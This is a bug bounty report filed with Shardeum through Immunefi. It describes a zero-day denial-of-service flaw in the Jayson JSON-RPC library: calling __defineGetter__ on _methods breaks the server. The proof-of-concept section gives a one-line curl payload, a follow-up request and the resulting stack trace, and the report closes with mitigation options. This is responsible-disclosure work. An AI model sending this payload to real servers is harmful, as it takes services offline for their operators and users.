 # Boost \_ Shardeum\_ Ancillaries 33577 - \[Websites and Applications - Insight] Taking down the HTTP server via jayson -day vulnerability

Submitted on Tue Jul 23 2024 19:52:16 GMT-0400 (Atlantic Standard Time) by @anton\_quantish for [Boost | Shardeum: Ancillaries](https://immunefi.com/bounty/shardeum-ancillaries-boost/)

Report ID: #33577

Report type: Websites and Applications

Report severity: Insight

Target: https://github.com/shardeum/json-rpc-server/tree/dev

Impacts:

* Taking down the application/website

## Description

## Brief/Intro

After finding https://bugs.immunefi.com/dashboard/submission/33571 I started to play around the same code of your HTTP server which is built on Jayson and, accidentally, found a similar 0-day vulnerability there. It requires just a single request to completely take down the application.

## Vulnerability Details

The vulnerability works a very similar way. When you create the Jayson server instance, you pass the methods into constructor:

```
const server = new jayson.Server(methods)
```

They are then parsed and stored within `server._methods` mapping. When the request is sent to the server, it first resolves the methods the following way:

```
Server.prototype.getMethod = function(name) {
  return this._methods[name];
};
```

and then executes it passing the args inside:

```
handler.call(server, ...args);
```

As far as I understand, such a call is equivalent to

```js
server[method](...args);
```

This way, we can override some server fields using the same `__defineGetter__` function. I tried to override the `_methods` field itself and completely broke the server (look at PoC).

## Impact Details

Complete HTTP server take down.

## Proof of concept

## Proof of Concept

1. Start the JSON-RPC server
2. Send the following request with cURL:

```
curl http://172.16.205.128:8080 -X POST -H "Content-Type: application/json" --data '{"jsonrpc":"2.0","method":"__defineGetter__","params":["_methods"],"id":1}'
```

3. Try to send any valid request, for instance

```
curl http://172.16.205.128:8080 -X POST -H "Content-Type: application/json" --data '{"jsonrpc":"2.0","method":"eth_gasPrice","params":[],"id":1}'
```

4. Make sure the traceback is returned and the same traceback is in server logs:

```
Error [ERR_HTTP_HEADERS_SENT]: Cannot set headers after they are sent to the client
    at new NodeError (node:internal/errors:399:5)
    at ServerResponse.setHeader (node:_http_outgoing:645:11)
    at ServerResponse.writeHead (node:_http_server:378:21)
    at /home/quantish/shardeum/json-rpc-server/node_modules/jayson/lib/server/middleware.js:51:15
    at Utils.JSON.stringify (/home/quantish/shardeum/json-rpc-server/node_modules/jayson/lib/utils.js:290:3)
    at /home/quantish/shardeum/json-rpc-server/node_modules/jayson/lib/server/middleware.js:39:18
    at callback (/home/quantish/shardeum/json-rpc-server/node_modules/jayson/lib/server/index.js:241:22)
    at respond (/home/quantish/shardeum/json-rpc-server/node_modules/jayson/lib/server/index.js:292:9)
    at Server._methods (/home/quantish/shardeum/json-rpc-server/node_modules/jayson/lib/server/index.js:329:7)
    at Server.getMethod (/home/quantish/shardeum/json-rpc-server/node_modules/jayson/lib/server/index.js:190:15)
```

I think the different impacts are also possible here but I didn't dive deeper. The RCE couldn't be achieved though I think.

## Mitigation

Since this is a 0-day vulnerability in the 3rd-party library, I think you have the following options:

* report this issue to the vendor and await for the fix to be implemented (I can assist you with that if you want me to);
* use some other JSON-RPC server library.
